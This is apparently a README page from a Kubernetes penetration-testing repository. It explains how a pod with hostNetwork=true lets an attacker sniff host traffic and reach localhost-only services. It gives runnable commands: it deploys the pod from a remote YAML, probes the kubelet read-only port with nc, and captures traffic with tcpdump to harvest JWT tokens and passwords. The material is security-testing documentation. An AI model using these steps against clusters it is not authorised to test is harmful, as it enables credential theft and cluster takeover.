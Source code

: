 ## You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
The important things here are: 
* You can sniff traffic on any of the host's network interfaces, and maybe find some kubernetes tokens or application specific passwords, keys, etc. to other services in the cluster.  
* You can communicate with network services on the host that are only listening on localhost/loopback. Services you would not be able to touch without `hostNetowrk=true`

[pod-hostnetwork-only.yaml](pod-hostnetwork-only.yaml)


### Create pod
```bash 
# Option 1: Create pod from local yaml 
kubectl apply -f pod-hostnetwork-only.yaml   

# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostnetwork-only/pod-hostnetwork-only.yaml  
```

### Exec into pod 

```bash
kubectl -n [namespace] exec -it pod-hostnetwork-only -- bash
```

### Post Exploitation 
```bash
# Install tcpdump and sniff traffic 
# Note: If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes tcpdump, like https://hub.docker.com/r/corfr/tcpdump

apt update && apt install tcpdump 

# You now have a few options for next steps: 

# See if kubelet read only port (10255/tcp) is open on the nodes IP or the docker host IP

nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!

# If the read only port is open, run tcpdump recording the output to a file for a few minutes

#######################
#Warning: Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
#Warning: Always run tcpdump with the -n flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 
#########################
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255

#Stop it, and read the file with tcpdump and use the -A flag to only show the printable characters

tcpdump -ro kubelet-ro.cap -s0 -A

#Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt token. If you are really lucky, that token might be associated with a service account in kube-system.


# Another option entirely: investigate local services
curl https://localhost:1234/metrics
```